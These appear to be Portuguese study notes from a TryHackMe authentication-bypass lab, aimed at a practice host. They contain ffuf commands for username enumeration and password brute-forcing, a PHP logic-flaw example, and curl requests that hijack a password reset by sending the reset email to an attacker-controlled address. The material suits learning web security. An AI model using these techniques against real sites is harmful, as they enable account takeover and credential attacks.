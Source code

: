 ```yaml
---
tags:
  - WEB
  - CRIPTOGRAFIA
---
```

# usuário
```shell
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.215.23/customers/signup -mr "username already exists"
```

# usuário + senha
Criar um txt com os usuários anteriormente encontrados para agora localizar as senhas
```shell
user@tryhackme$ ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.215.23/customers/login -fc 200
```

# Falha de lógica
```php
if( url.substr(0,6) === '/admin') {
    # Código testa se o user é admin
} else {
    # Visualiza a página
}
```

Usaremos o endereço de e-mail válido, nesse caso: robert@acmeitsupport.thm, que é aceito. Em seguida, será apresentada a próxima etapa do formulário, que solicita o nome de usuário associado a esse endereço de e-mail de login. Depois é solicitado um usuário, iremos colocar um válido também. O nome de usuário é enviado em um campo POST para o servidor da Web e o endereço de e-mail é enviado na solicitação de string de consulta como um campo GET.

```shell
curl 'http://10.10.215.23/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```

A variável PHP `$_REQUEST` é uma matriz que contém dados recebidos da string de consulta e dos dados do POST. **Se o mesmo nome de chave for usado para a string de consulta e para os dados do POST**, a lógica do aplicativo para essa variável favorecerá os campos de dados do POST em vez da string de consulta, portanto, ==se adicionarmos outro parâmetro ao formulário POST, poderemos controlar onde o e-mail de redefinição de senha será entregue==

```shell
curl 'http://10.10.215.23/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
# agora alterando o email para nosso email de atacante
```

Agora, criaremos uma conta nova onde teremos o link para recuperação da outra conta 
```shell
curl 'http://10.10.215.23/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```

